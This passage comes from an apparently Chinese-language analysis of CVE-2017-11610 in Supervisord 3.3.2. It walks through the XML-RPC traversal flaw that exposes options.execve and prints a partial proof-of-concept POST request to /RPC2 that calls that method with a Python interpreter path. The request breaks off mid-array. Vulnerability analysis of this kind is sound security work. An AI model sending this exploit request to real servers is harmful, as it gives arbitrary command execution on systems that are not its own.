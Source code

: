 而我们来看看3.3.2版本中Supervisord是如何处理RPC调用的：

```python
class supervisor_xmlrpc_handler(xmlrpc_handler):
    ...

    def call(self, method, params):
        return traverse(self.rpcinterface, method, params)

def traverse(ob, method, params):
    path = method.split('.')
    for name in path:
        if name.startswith('_'):
            # security (don't allow things that start with an underscore to
            # be called remotely)
            raise RPCError(Faults.UNKNOWN_METHOD)
        ob = getattr(ob, name, None)
        if ob is None:
            raise RPCError(Faults.UNKNOWN_METHOD)

    try:
        return ob(*params)
    except TypeError:
        raise RPCError(Faults.INCORRECT_PARAMETERS)
```

`supervisor_xmlrpc_handlerl`类用于处理RPC请求，其call方法就是真正执行远程调用的函数。在call方法中调用了traverse函数，跟进这个函数，我们发现他的逻辑是这样：

1. 将method用点号分割成数组path
2. 遍历这个数组，每次获得一个name
3. 如果name不以下划线开头，则获取ob对象的name属性，其作为新的ob对象
4. 遍历完成后获得最终的ob对象，调用之

所以，实际上这个函数最后达成的效果就是：**初始ob对象下的任意public方法，包括它的所有递归子对象的任意public方法，都可以被调用。**

而此处，ob对象即为`self.rpcinterface`，官方开发者可能认为可调用的方法只限制在这个对象内部，所以没有做特别严格的白名单限制。

而CVE-2017-11610的发现者发现，在`self.rpcinterface.supervisor.supervisord.options`对象下，有一个方法`execve`，其相当于直接调用了系统的`os.execve`函数，是可以直接执行任意命令的：

```python
class ServerOptions(Options):
    ...    
    def execve(self, filename, argv, env):
        return os.execve(filename, argv, env)
```

所以，最后给出利用POC（RPC协议如何构造数据包、XML是什么格式，这个可以自己去看看文档）：

```http
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/local/bin/python</string>
</param>
<param>
<array>
```